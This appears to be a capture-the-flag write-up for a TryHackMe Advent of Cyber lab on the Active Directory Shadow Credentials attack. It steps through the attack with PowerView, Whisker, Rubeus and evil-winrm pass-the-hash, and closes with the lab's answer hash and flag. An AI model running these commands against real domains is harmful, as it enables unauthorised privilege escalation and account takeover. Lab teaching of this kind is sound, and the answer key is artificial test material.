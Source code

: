 # Task 17  [Day 11] Active Directory Jingle Bells, Shadow Spells
---

### Learning Objectives

- Understanding Active Directory
- Introduction to Windows Hello for Business
- Prerequisites for exploiting GenericWrite privilege
- How the Shadow Credentials attack works
- How to exploit the vulnerability

After Machine is up Open powershell and execute : 


```
cd C:\Users\hr\Desktop
```
moves to the folder containing all the exploitation tools.


```
powershell -ep bypass
```
will bypass the default policy for arbitrary PowerShell script execution.


```
. .\PowerView.ps1
```
loads the PowerView script into the memory.


At this point, we can enumerate the privileges by running:

Now, you can launch the full command:
```
Find-InterestingDomainAcl -ResolveGuids | Where-Object { $_.IdentityReferenceName -eq "hr" } | Select-Object IdentityReferenceName, ObjectDN, ActiveDirectoryRights
```

After this, you’ll get to know the Vulnerable User — ***vansprinkles***

Now to get the hash of the user vansprinkles
run:
```
 .\Whisker.exe add /target:vansprinkles
```

The above command will give you a big hash.

Now copy the whole hash

and re run it by rebeus.exe 

It will give you an NTLM hash


<img width="1440" alt="Screenshot 2024-01-02 at 1 20 13 AM" src="https://github.com/Lynk4/Advent-of-Cyber-2023/assets/44930131/85bf2650-9d5f-4eb2-8cc0-d98381c4d9bd">

---

Now use evil-winrm to gain access :

Command
```
evil-winrm -i machine_ip -u vansprinkles -H 03E805D8A8C5AA435FB48832DAD620E3
```

After accessing go to 
```
cd C:\Users\Administrator\Desktop
```

To get the flag

<img width="1044" alt="Screenshot 2024-01-02 at 1 24 20 AM" src="https://github.com/Lynk4/Advent-of-Cyber-2023/assets/44930131/29b59c46-16c0-494a-892f-709ce5b95d71">

---

QUESTIONS:

1. What is the hash of the vulnerable user?

Answer
```
03E805D8A8C5AA435FB48832DAD620E3
```

2. What is the content of flag.txt on the Administrator Desktop?

Answer
```
THM{XMAS_IS_SAFE}
```

---
   
